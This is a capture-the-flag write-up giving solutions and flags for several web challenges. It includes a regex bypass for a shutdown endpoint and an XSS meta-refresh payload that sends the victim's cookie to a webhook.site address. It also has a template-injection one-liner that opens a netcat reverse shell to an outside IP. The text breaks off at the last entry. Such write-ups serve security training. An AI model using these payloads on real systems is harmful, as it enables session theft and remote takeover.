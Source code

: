```
CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}
```
##

## Cessation

Solved By: bread

To bypass the regex you need to have break the match.
regex to beat `http://.*/shutdown`

One trick here is that websites do not care how many slashes you have .
so...

```
http://206.189.121.131:32590//shutdown
```

boom flag!

```
CHTB{c3ss4t10n_n33dsync1ng#@$?}
```

##

## emoji voting

Solved By: bread

##

## Alien compliant form

Solved By: Legacyy

```html
<meta name="language" content="0;http://127.0.0.1:1337/list?callback=var x=function(data){document.location=`https://webhook.site/42bfc7b1-e0cf-4e32-b83c-46e83022e703/?${document.cookie}`;}"HTTP-EQUIV="refresh"" />
```

##

## Starfleet

Solved By: Legacyy

In the web form, enter the following one liner, changing your ip and port to catch a shell :)

```
makelaris+{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 84.69.106.167 4242 >/tmp/f')")()}}@hackthebox.eu
```

Execute:
